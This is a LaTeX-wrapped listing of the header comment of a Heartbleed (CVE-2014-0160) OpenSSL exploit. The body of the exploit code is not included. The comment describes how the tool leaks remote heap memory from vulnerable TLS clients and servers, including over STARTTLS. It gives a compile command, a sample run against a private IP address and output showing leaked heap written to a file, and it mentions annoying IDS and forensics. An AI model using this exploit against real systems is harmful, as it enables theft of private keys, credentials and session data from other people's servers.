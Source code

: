 \documentclass[11t]{article}
\begin{document}
\begin{lstlisting}[breaklines=true]
/* 
* CVE-2014-0160 heartbleed OpenSSL information leak exploit
* =========================================================
* This exploit uses OpenSSL to create an encrypted connection
* and trigger the heartbleed leak. The leaked information is
* returned within encrypted SSL packets and is then decrypted 
* and wrote to a file to annoy IDS/forensics. The exploit can 
* set heartbeat payload length arbitrarily or use two preset 
* values for NULL and MAX length. The vulnerability occurs due 
* to bounds checking not being performed on a heap value which 
* is user supplied and returned to the user as part of DTLS/TLS 
* heartbeat SSL extension. All versions of OpenSSL 1.0.1 to 
* 1.0.1f are known affected. You must run this against a target 
* which is linked to a vulnerable OpenSSL library using DTLS/TLS.
* This exploit leaks upto 65535 bytes of remote heap each request
* and can be run in a loop until the connected peer ends connection.
* The data leaked contains 16 bytes of random padding at the end.
* The exploit can be used against a connecting client or server,
* it can also send pre_cmd's to plain-text services to establish
* an SSL session such as with STARTTLS on SMTP/IMAP/POP3. Clients
* will often forcefully close the connection during large leak
* requests so try to lower your payload request size. 
*
* Compiled on ArchLinux x86_64 gcc 4.8.2 20140206 w/OpenSSL 1.0.1g 
*
* E.g.
* $ gcc -lssl -lssl3 -lcrypto heartbleed.c -o heartbleed
* $ ./heartbleed -s 192.168.11.23 -p 443 -f out -t 1
* [ heartbleed - CVE-2014-0160 - OpenSSL information leak exploit
* [ =============================================================
* [ connecting to 192.168.11.23 443/tcp
* [ connected to 192.168.11.23 443/tcp
* [ <3 <3 <3 heart bleed <3 <3 <3
* [ heartbeat returned type=24 length=16408
* [ decrypting SSL packet
* [ heartbleed leaked length=65535
* [ final record type=24, length=16384
* [ wrote 16381 bytes of heap to file 'out'
* [ heartbeat returned type=24 length=16408
* [ decrypting SSL packet
* [ final record type=24, length=16384
* [ wrote 16384 bytes of heap to file 'out'
* [ heartbeat returned type=24 length=16408
* [ decrypting SSL packet
* [ final record type=24, length=16384
* [ wrote 16384 bytes of heap to file 'out'
* [ heartbeat returned type=24 length=16408
* [ decrypting SSL packet
* [ final record type=24, length=16384
* [ wrote 16384 bytes of heap to file 'out'
* [ heartbeat returned type=24 length=42
* [ decrypting SSL packet
* [ final record type=24, length=18
* [ wrote 18 bytes of heap to file 'out'

\end{lstlisting}
\end{document}
